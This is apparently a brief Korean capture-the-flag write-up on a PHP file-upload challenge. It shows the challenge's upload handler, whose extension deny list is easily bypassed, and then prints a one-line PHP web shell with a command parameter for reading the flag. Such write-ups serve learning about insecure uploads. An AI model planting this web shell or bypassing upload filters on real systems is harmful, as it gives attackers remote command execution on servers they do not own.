 <?php
$deniedExts = array("php", "php3", "php4", "php5", "pht", "phtml");

if (isset($_FILES)) {
    $file = $_FILES["file"];
    $error = $file["error"];
    $name = $file["name"];
    $tmp_name = $file["tmp_name"];
   
    if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
    }else {
        $temp = explode(".", $name);
        $extension = end($temp);
       
        if(in_array($extension, $deniedExts)){
            die($extension . " extension file is not allowed to upload ! ");
        }else{
            move_uploaded_file($tmp_name, "upload/" . $name);
            echo "Stored in: <a href='/upload/{$name}'>/upload/{$name}</a>";
        }
    }
}else {
    echo "File is not selected";
}
?>

척 봐도 핵심이 되는 부분이라는 걸 알 수 있다 
php를 우회하는 것이 핵심인데 그걸 우회해서 파일을 업로드해주면 
웹쉘을 실행하는 것이 가능하다 

<?php system($_GET[cmd]); ?>  

그러면 ?cmd=/flag 이렇게 /flag를 뽑아주면 된다. 
